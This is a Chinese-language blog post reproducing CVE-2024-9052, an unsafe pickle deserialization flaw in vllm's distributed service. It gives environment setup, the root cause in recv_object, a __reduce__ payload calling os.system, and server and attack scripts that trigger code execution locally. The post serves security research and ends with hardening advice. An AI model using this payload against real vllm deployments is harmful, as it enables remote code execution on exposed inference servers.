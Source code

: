 ```yaml
---
layout: post
tags: [RealWorld]
title: "CVE-2024-9052复现(vllm 反序列化漏洞复现)"
author: wsxk
comments: true
date: 2025-3-17
---
```



- [1. 环境搭建](#1-环境搭建)
  - [1.1 anaconda](#11-anaconda)
- [2. 漏洞介绍](#2-漏洞介绍)
- [3. 漏洞成因](#3-漏洞成因)
- [4. 漏洞复现](#4-漏洞复现)
- [5. 启示](#5-启示)


# 1. 环境搭建<br>
## 1.1 anaconda<br>
在anaconda官网[https://www.anaconda.com/download](https://www.anaconda.com/download)中填写邮件地址，随后点击邮件的连接下载相应版本即可<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250317204219.png)
随后激活该环境<br>
```
conda create -n vllm_beam python=3.10 -y  #创建一个虚拟环境，用于vllm漏洞复现
conda activate vllm_beam # 环境切换
export TMPDIR=/home/kali/Desktop/anaconda/  #通过情况下，linux虚拟机中的/tmp挂载的文件系统大小是1G左右，无法满足vllm相关内容的所有下载，因此需要切换临时目录。
pip3 install https://github.com/vllm-project/vllm/releases/download/v0.6.4.post1/vllm-0.6.4.post1+cu118-cp38-abi3-manylinux1_x86_64.whl --extra-index-url https://download.pytorch.org/whl/cu118 -i https://pypi.tuna.tsinghua.edu.cn/simple
```

# 2. 漏洞介绍<br>
vllm是一个快速且易于使用的LLM推理和服务库，它结合 iterative-level schedule (continuous batching) 和 PagedAttention 注意力算法以提高服务的吞吐量。前者（iterative-level schedule）以单轮迭代的方式对用户的请求进行处理，即 LLM 生成一个 token 后会重新调度并挑选要下一轮要处理的请求。后者（PagedAttention）受操作系统虚拟内存和分页思想启发，将原本连续的 KV cache 存储在不连续的空间，以避免 KV cache 带来的显存浪费。除开高性能，简单易用也是它的优势之一。<br>
漏洞编号： [CVE-2024-9052](https://www.cve.org/CVERecord?id=CVE-2024-9052)<br>
点开连接，我们会发现该cve编号已经被保留了，具体的细节已经不见。<br>
具体原因不详，我猜测可能是因为vllm社区并不认为这是一个漏洞；这么猜测的原因很简单，即使是现在最新的vllm版本，代码还没有被修改。<br>

# 3. 漏洞成因<br>
vllm开启分布式服务时，未对接收的序列化对象进行相应的校验、过滤，导致攻击者可以向vllm分布式服务发送恶意序列化对象造成RCE.<br>
问题出现在`vllm.distributed.GroupCoordinator.recv_object`函数当中<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250317224606.png)
在该函数中，直接使用`pickle.loads`反序列化用户上传的json字符串为python对象。而模式方法会在一些特定的时候被执行，例如__reduce__，使用pickle.loads()进行反序列化时，会自动调用魔术方法__reduce__，因此在该方法中直接返回执行恶意指令，造成RCE。<br>
```python
class payload:
    def __reduce__(self):
        return (__import__('os').system, ("touch /tmp/1.txt",))
```


# 4. 漏洞复现<br>
本地启动一个vllm分布式服务<br>
```python
from vllm.distributed import (ensure_model_parallel_initialized,
                              init_distributed_environment, get_world_group)
import vllm
 
init_distributed_environment(backend="gloo", distributed_init_method="tcp://0.0.0.0:29500", rank=1, world_size=2)
vllm.distributed.GroupCoordinator.recv_object(get_world_group(), src=0)
```
再编写一个攻击脚本，其代码如下:<br>
```python
from vllm.distributed import (ensure_model_parallel_initialized,
                              init_distributed_environment, get_world_group)
import vllm
 
class payload:
    def __reduce__(self):
        return (__import__('os').system, ("touch 1.txt",))
 
init_distributed_environment(backend="gloo", distributed_init_method="tcp://127.0.0.1:29500", rank=0, world_size=2)
vllm.distributed.GroupCoordinator.send_object(get_world_group(), obj=payload(), dst=1)
```
执行完成后，server目录下将出现1.txt文件<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250317230128.png)


# 5. 启示<br>
使用vllm时，需要注意不要将分布式服务暴露在公网上；如果要暴露，也要构建正确的鉴权机制。<br>

<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>